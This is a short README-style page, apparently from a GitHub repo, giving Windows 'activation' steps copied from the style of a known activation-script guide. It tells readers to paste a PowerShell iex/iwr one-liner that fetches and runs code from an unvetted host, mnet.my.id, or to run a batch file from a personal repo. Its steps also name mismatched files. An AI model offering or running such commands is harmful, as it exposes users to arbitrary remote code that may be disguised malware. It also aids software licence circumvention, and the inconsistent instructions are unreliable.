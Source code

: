 ### Method 1 - PowerShell (Recommended)

-   Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy and paste the code below and press enter  

```
iex (iwr "https://mnet.my.id/update/github/c" -UseBasicParsing)
```

You will see the activation options. Follow the on-screen instructions.
That's all.


### Method 2 - Traditional

-   Download the file under the code button from [GitHub](https://github.com/mm1rza/C-mirza/raw/main/%23updateallfiles/update.bat)
-   Right-click on the downloaded `update.bat`
-   Run the file named `MAS_AIO-CRC32_XXXXXXXX.cmd`
-   You will see the activation options, follow the on-screen instructions.
-   That's all.

To run the scripts in unattended mode, check [here](https://massgrave.dev/command_line_switches)

</br>
